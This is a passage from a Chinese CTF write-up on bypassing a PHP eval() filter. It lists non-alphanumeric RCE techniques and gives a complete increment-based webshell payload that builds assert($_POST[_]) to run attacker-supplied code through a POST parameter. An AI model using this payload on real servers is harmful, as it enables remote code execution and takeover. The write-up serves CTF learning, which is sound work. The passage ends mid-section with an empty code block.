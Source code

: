 ```php
{
    die("Ra'sAlGhul说用字母数字是没有灵魂的！");
}
echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？";
eval($wllm);
}
else
{
    echo "蔡总说：注意审题！！！";
}
?> 
```

跟刚刚差不多, 是一个显然的 RCE, 这次禁止了 `~` `^`

### 无字符 RCE 构造

总结一下无字符 RCE 的主要构造方式:

- 取反: `~`;
- 异或: `^`;
- 或: `|`;
- 自增: `++`;
- 临时文件: 反引号

那么这里应该是用自增;

### 自增马

用这个 payload:

```
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
```

相当于传入了:

```
eval(@_POST[_]);
```

这样传参实际转移到了 POST 方法中, 而这里是没有 WAF 的;

URL 编码:

```
```